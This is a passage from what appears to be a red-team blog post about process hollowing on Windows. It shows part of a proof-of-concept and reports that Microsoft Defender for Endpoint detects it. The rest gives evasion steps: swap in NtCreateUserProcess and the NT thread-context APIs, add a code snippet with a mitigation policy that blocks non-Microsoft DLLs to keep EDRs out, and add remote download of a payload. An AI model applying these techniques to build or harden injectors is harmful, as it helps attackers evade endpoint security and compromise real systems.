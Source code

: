 ```

    // Unmap memory
    status = ntUnmapViewOfSection(
        GetCurrentProcess(),
        hLocalAddress);
}
```

Testing this POC against MDE we find the following alerts.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/NtProccesHollow/Images/Pasted%20image%2020230915184322.png)

Process Hollowing is clearly detected. 
Improve the POC by replacing CreateProcess with NtCreateUserProcess, this can be a little tricky to replace. Here is a blog showcasing how to do it: https://captmeelo.com/redteam/maldev/2022/05/10/ntcreateuserprocess.html
Make sure to also replace the remaining APIs for thread context manipulation such as - NtGetContextThread, NtSetContextThread and NtResumeThread.

Optionally add a few more checks such as the Process Mitigation Policy to avoid non-Microsoft loads (applicable to other EDRs and not MDE). 

```
DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;

	// Add process mitigation attribute
	AttributeList->Attributes[4].Attribute = PS_ATTRIBUTE_MITIGATION_OPTIONS;
	AttributeList->Attributes[4].Size = sizeof(DWORD64);
	AttributeList->Attributes[4].ValuePtr = &policy;
```

Make sure to add a function to incorporate download functionality from a remote webserver using HTTP(S).
